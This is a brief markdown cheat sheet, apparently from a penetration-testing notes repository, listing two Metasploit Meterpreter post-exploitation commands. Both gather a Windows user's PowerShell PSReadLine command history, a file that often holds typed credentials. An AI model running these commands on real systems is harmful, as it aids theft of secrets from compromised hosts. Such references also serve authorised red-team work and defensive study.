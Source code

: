 # Metasploit

## 01 - Meterpreter Command

```
meterpreter > cat %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## 02 - Post Module

```
meterpreter > run post/windows/gather/psreadline_history
```